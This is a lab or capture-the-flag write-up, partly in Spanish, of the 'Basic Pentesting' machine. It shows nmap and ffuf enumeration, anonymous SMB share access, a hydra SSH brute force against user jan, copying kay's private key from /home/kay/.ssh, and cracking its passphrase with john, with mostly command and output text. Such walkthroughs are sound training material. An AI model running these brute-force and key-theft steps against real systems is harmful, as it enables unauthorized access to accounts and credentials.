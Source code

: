 # Basic Pentesting — Writeup

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeration (nmap)

**Command**

```bash
nmap -sV --open $IP
```

**Comment:** `-sV` detecta versiones de servicios. 

**Result**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Summary**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Web Enumeration (ffuf)

**Command**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comment:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Result**
```bash
# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Relevant result**

* `/development`

---

## Smb — anonymous share

**Enumeration**

```bash
smbclient -L //$IP
```

**Result**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```

**Relevant Result**
* Share accesible: `Anonymous (Disk)`

**Connection**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comment:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Foothold

**Brute Force SSH (user: jan)**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comment:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Result**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

**Private Key**

```bash
ssh jan@$IP
# introducir clave de usuario
jan@$IP cat /home/kay/.ssh/id_rsa
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comment:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Lateral Movement

**Cracking passphrase**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Login Kay**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```

